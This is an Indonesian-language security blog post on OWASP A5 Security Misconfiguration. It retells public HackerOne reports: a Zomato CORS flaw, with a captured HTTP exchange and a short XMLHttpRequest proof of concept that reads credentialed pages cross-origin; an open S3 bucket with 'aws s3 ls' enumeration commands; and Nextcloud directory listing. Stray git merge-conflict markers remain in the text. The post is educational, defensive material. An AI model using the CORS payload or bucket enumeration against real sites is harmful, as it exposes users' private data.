



=======
description: "OWASP Top 10 — A5: Security Misconfiguration adalah kerentanan yang terjadi akibat konfigurasi keamanan yang tidak tepat, seperti pengaturan default yang lemah, izin yang berlebihan, atau server yang mengekspos informasi sensitif. Pencegahan meliputi konfigurasi yang aman, pembaruan sistem rutin, serta penerapan prinsip least privilege."
disableHLJS: true 
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---


>>>>>>> fd99555 (Update rebelsec.id Site)

## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan ke lima untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Security Misconfiguration**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Security Misconfiguration

### Apa itu Security Misconfiguration

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

**Security Misconfiguration** adalah sebuah kerentanan yang terjadi karena kesalahan dari **Developer** itu sendiri, mungkin ia tidak mengikuti petunjuk (dokumentasi) dari sebuah library, framework atau pendukung lainnya yang digunakan untuk membangun aplikasinya.

kerentanan itu merupakan kerentanan yang cukup sering terjadi, karna developer mungkin menggunakan banyak bantuan dari **framework** atau hal lainnya, yang mengakibatkan semakin banyak pula kemungkinan **Celah/kerentanan** di aplikasinya.

jika developer mengikuti segala hal (dokumentasi) pastinya akan sangat memudahkan developer itu dalam membangun aplikasinya karena tidak perlu memikirkan **Secure coding (sudah dipikirkan oleh developer framework itu sendiri)**

Contoh Misconfigurasi :

- HTTP Only
- Query Builder
- X-Frame-options
- Content-Security Policy
- CORS
- Acces Control

## Praktikal

### #426165 [www.zomato.com] CORS Misconfiguration, could lead to disclosure of sensitive information

sumber : https://hackerone.com/reports/426165

attacker melakukan request ke www.zomato.com

Request :

```
GET /abudhabi HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
Cookie: zl=en; fbtrack=0c8f198276217196ed64230da7ec8506; _ga=GA1.2.1887254439.1538912146; _gcl_au=1.1.2098169460.1538912146; dpr=1; utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1540032478:8035200; G_ENABLED_IDPS=google; cto_lwid=8a9f6540-307d-4333-bd04-96eebdec23b1; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; fbcity=57; zhli=1; al=0; _gid=GA1.2.1724569398.1539946684; ██████████; session_id=c541029346655-a68e-4a04-b2f8-ef1992b2e230; AMP_TOKEN=%24NOT_FOUND; csrf=a84df4c9f61aadf31a4f1dd4ca48be6e; ak_bmsc=2C67C71C92EB260D24B70A22BB690F2C4F8C5EB21A5B00008607CB5B69982B47~plvdYiMgFHceTWhzyAX5U631p9L1788qeXL/lAyNPHymsMAnv6mHZSJNA05zvLH2oIoYhZh2IVuMrSYmbcah8ADEJOyyFO27PZ5N/H1Cdvks7MZe3E9Y91EtRL8tbHwWka49I9RjDSrHVcgq5z4OIk8dfQd05szzsPKkleP3Jp9MJD1rVdLEcg2cCHoQYw5ciHDvhZtMWN6RD0DxZBoe3LPsfb37q5xqHTQ8h9XpyqUzc=; _gat_city=1; _gat_country=1; _gat_global=1; _gat_globalV3=1; bm_sv=EDBA03CA40AC8D77509922CAA98130B4~OXaAg7LsgySzeWnqd9TzoaW6pGtPv7Ut2dYfUp7otuPnD1uJi3BUwSCYQiDP4q92NaiK6GLXT8xxPmWSgspcRyYjatr3Zc5lDyt8+MMSsDmykSMruOC6+5BPCXCEX+HulBpygHFzTAQJSoPSYxgsSjsbymzdQq/Q90b/MvSGLbo=
Connection: close
Upgrade-Insecure-Requests: 1
Origin: developersxzomato.com
```

Response

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 127168
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block; report=https://www.zomato.com/cspreport.php
Content-Security-Policy: frame-ancestors https://.nearbuystag.in https://.nearbuy.com 'self'; default-src ; font-src data:; img-src data:; media-src blob:; script-src 'self' 'unsafe-inline' 'unsafe-eval' .jwpcdn.com .cloudflare.com .twitter.com .recruiterbox.com .zdev.net .zdev.net:8080 .zomato.com .tinymce.com .gstatic.com .googleapis.com .google.com .facebook.com sdk.accountkit.com .doubleclick.net .googlesyndication.com .nr-data.net .newrelic.com .google-analytics.com .akamaihd.net .zmtcdn.com .googletagmanager.com .facebook.net .googleadservices.com .cdninstagram.com .googlesyndication.com .inspectlet.com .spreedly.com .instagram.com .twimg.com .mouseflow.com .usersnap.com d3mvnvhjmkxpjz.cloudfront.net .serving-sys.com .sushissl.com .pubnub.com tsgw.tataelxsi.co.in .branch.io app.link cdn.poll-maker.com .ampproject.org .smartlook.com .hotjar.com dashboard.hypertrack.io zba.se .googletagmanager.com .eff.org cdn.plot.ly .zedo.com .bing.com .criteo.net .criteo.com mddigital.in; style-src 'unsafe-inline';
Access-Control-Allow-Origin: developersxzomato.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, X-ZOMATO-CSRFT, *
Server: Zomato
Strict-Transport-Security: max-age=31536000
Expires: Sat, 20 Oct 2018 12:29:00 GMT
Pragma: no-cache
Date: Sat, 20 Oct 2018 12:29:00 GMT
Connection: close
Set-Cookie: LEL_JS=true; expires=Sat, 20-Oct-2018 12:59:00 GMT; Max-Age=1800
Cache-Control: max-age=0, no-cache, no-store, no-transform
Vary: Accept-Encoding, User-Agent
Strict-Transport-Security: max-age=31536000
Set-Cookie: bm_sv=EDBA03CA40AC8D77509922CAA98130B4~OXaAg7LsgySzeWnqd9TzoaW6pGtPv7Ut2dYfUp7otuPnD1uJi3BUwSCYQiDP4q92NaiK6GLXT8xxPmWSgspcRyYjatr3Zc5lDyt8+MMSsDnq267a1bOhniBmABAbrga8gmdQdjDNE5GsLvrlCcm07Q3hffJKqLj7hIkMIJhtw4g=; Domain=.zomato.com; Path=/; Max-Age=1053; HttpOnly

```

kemudian attacker pergi ke http://developersxzomato.com/ inspect halaman dan pergi ke console.

di console itu terdapat informasi seperti berikut :

```
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://www.zomato.com/abudhabi',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
```

Impact dari kerentanan di atas adalah attacker dapat memanipulasi korban untuk mengunjungi website yang attacker buat, jika korban **tertipu** maka seluruh data pribadi milik korban akan tersimpan di server milik attacker.

### #1062803 Misconfigured AWS S3 bucket leaks senstive data such of admin, Prdouction,beta, localhost and many more directories....

sumber https://hackerone.com/reports/1062803

1. attacker pergi ke : ██████.s3.amazonaws.com/

2. jadi dari url di atas diketahui bahwa nama **bucket**nya adalah : ██████

3. attacker mengakses denagn direktori yang berbeda, dan hasilnya seperti ini

```
aws s3 ls s3://███/
aws s3 ls s3://████/██████/
aws s3 ls s3://███████/███████████████/
aws s3 ls s3://██████████/███████/
aws s3 ls s3://██████████/████/
```

impact dari kerentanan diatas adalah attacker **unauthenticated user** dapat mendownload semua informasi sensitif yang ada di s3 bucket

### #690796 Directory listing is enabled that exposes non public data through multiple path

sumber : https://hackerone.com/reports/690796

domain try.nextcloud.com dapat dilakukan directory listing, yang mengakibatkan attacker mendapatkan informasi seperti file-file yang ada di server dan versi server yang digunakan oleh Nexcloud.

Endpoit :

https://try.nextcloud.com/assets/
https://try.nextcloud.com/css/
https://try.nextcloud.com/js/

<<<<<<< HEAD

=======

>>>>>>> fd99555 (Update rebelsec.id Site)

## Mitigasi

- Sending security directives to clients, e.g., Security Headers
- Menggunakan aplikasi yang tidak terlalu banyak **Fitur**/ aplikasi hanya menggunakan fitur yang memang dianggap penting

# Referensi

[OWASP Testing Guide: Configuration Management](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README)

[OWASP Testing Guide: Testing for Error Codes](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/01-Testing_For_Improper_Error_Handling)

[Application Security Verification Standard V14 Configuration](https://github.com/OWASP/ASVS/blob/master/4.0/en/0x22-V14-Config.md)

[NIST Guide to General Server Hardening](https://csrc.nist.gov/publications/detail/sp/800-123/final)

[CIS Security Configuration Guides/Benchmarks](https://www.cisecurity.org/cis-benchmarks/)

[Amazon S3 Bucket Discovery and Enumeration](https://blog.websecurify.com/2017/10/aws-s3-bucket-discovery.html)

# Beberapa kerentanan lain di list CWE

[CWE-2 7PK - Environment](https://cwe.mitre.org/data/definitions/2.html)

[CWE-11 ASP.NET Misconfiguration: Creating Debug Binary](https://cwe.mitre.org/data/definitions/11.html)

[CWE-13 ASP.NET Misconfiguration: Password in Configuration File](https://cwe.mitre.org/data/definitions/13.html)

[CWE-15 External Control of System or Configuration Setting](https://cwe.mitre.org/data/definitions/15.html)

[CWE-16 Configuration](https://cwe.mitre.org/data/definitions/16.html)

[CWE-260 Password in Configuration File](https://cwe.mitre.org/data/definitions/260.html)

[CWE-315 Cleartext Storage of Sensitive Information in a Cookie](https://cwe.mitre.org/data/definitions/315.html)

[CWE-520 .NET Misconfiguration: Use of Impersonation](https://cwe.mitre.org/data/definitions/520.html)

[CWE-526 Exposure of Sensitive Information Through Environmental Variables](https://cwe.mitre.org/data/definitions/526.html)

[CWE-537 Java Runtime Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/537.html)

[CWE-541 Inclusion of Sensitive Information in an Include File](https://cwe.mitre.org/data/definitions/541.html)

[CWE-547 Use of Hard-coded, Security-relevant Constants](https://cwe.mitre.org/data/definitions/547.html)

[CWE-611 Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

[CWE-614 Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)

[CWE-756 Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

[CWE-776 Improper Restriction of Recursive Entity References in DTDs ('XML Entity Expansion')](https://cwe.mitre.org/data/definitions/776.html)

[CWE-942 Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)

[CWE-1004 Sensitive Cookie Without 'HttpOnly' Flag](https://cwe.mitre.org/data/definitions/1004.html)

[CWE-1032 OWASP Top Ten 2017 Category A6 - Security Misconfiguration](https://cwe.mitre.org/data/definitions/1032.html)

[CWE-1174 ASP.NET Misconfiguration: Improper Model Validation](https://cwe.mitre.org/data/definitions/1174.html)
